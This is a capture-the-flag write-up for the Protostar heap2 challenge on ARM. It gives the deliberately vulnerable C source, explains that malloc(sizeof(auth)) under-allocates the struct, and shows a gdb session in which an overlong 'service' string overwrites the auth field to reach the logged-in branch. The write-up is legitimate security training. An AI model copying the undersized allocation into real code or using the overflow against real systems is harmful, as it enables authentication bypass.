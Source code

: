 ## Protostar ARM heap2

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;

      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
#### _Let's start_

To solve this challenge we will try to understand the flow of the program and reach the branch which prints `you have logged in already!`.

Let's execute our program
```
pi@raspberrypi:~/protostar/heap/heap2 $ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x145e960, service = (nil) ]
auth BBBB
[ auth = 0x145e970, service = (nil) ]

```

What?! Surprisingly for the `auth struct` are allocated only `16 bytes (0x145e9700 - 0x145e960)`. This happens due to an error in the source code `auth = malloc(sizeof(auth));`, the `sizeof` must be related to `struct auth` and not to the variable `auth`.

```
[ auth = (nil), service = (nil) ]
auth a
[ auth = 0x251960, service = (nil) ]
service b
[ auth = 0x251960, service = 0x251970 ]
```

Trying to use `service b` as input we can see that pointer is allocated `16 bytes` over the `struct auth`, maybe we will be able to overwrite the original values from the struct and change the value checked in memory `(auth->auth)` when we type `login`.

Let's try

```code
gef➤  print auth
$1 = (struct auth *) 0x22960
gef➤  print auth->auth
$2 = 0x0
gef➤  print &auth->auth
$3 = (int *) 0x22980
gef➤  x/20x 0x22960
0x22960:	0x00000a61	0x00000000	0x00000000	0x00000000
0x22970:	0x00000000	0x00000000	0x00000000	0x00000000
0x22980:	0x00000000	0x00020681	0x00000000	0x00000000
gef➤  c
Continuing.
service AAAABBBBCCCCDDDDE
[ auth = 0x22960, service = 0x22970 ]

....
gef➤  print auth->auth
$4 = 0xa4544
gef➤  c
Continuing.
login
you have logged in already!
[ auth = 0x22960, service = 0x22970 ]

```

__*Done :)*__
